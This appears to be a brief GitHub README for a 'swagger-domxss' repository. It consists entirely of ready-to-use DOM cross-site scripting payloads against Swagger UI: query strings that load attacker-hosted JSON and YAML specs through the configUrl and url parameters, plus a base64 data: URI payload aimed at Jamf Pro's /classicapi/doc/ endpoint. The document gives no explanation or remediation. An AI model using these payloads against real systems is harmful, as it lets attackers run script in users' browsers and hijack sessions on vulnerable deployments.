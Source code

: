 # swagger-domxss

```
?configUrl=https://raw.githubusercontent.com/Phoenix1112/swagger-domxss/main/test.json
```

```
?url=https://raw.githubusercontent.com/Phoenix1112/swagger-domxss/main/test.yaml
```


# Jamf pro swagger xss

```
/classicapi/doc/?configUrl=data:text/html;base64,ewoidXJsIjoiaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL1Bob2VuaXgxMTEyL3N3YWdnZXItZG9teHNzL21haW4vdGVzdC55YW1sIgp9Cg==
```

